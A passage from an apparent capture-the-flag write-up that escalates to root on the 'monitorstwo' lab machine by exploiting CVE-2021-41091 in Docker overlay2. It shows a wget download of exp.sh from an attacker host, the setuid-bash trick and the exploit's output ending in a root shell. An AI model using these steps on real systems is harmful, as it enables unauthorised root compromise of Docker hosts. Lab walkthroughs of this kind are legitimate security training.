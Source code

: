 After setting the setuid, transfer the `exp.sh` to the machine. 
```shell
marcus@monitorstwo:/var/tmp$ wget http://10.10.16.19:9002/exp.sh
--2023-07-13 08:41:22--  http://10.10.16.19:9002/exp.sh
Connecting to 10.10.16.19:9002... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2447 (2.4K) [text/x-sh]
Saving to: ‘exp.sh’

exp.sh                                            100%[=============================================================================================================>]   2.39K  --.-KB/s    in 0.03s   

2023-07-13 08:41:22 (75.3 KB/s) - ‘exp.sh’ saved [2447/2447]

marcus@monitorstwo:/var/tmp$ chmod +x exp.sh
```

Running the exploit `exp.sh` will grant the root shell.
```shell
marcus@monitorstwo:/var/www/html$ ../../tmp/exp.sh
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell

marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ exit
marcus@monitorstwo:/var/www/html$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
bash-5.1# 
```
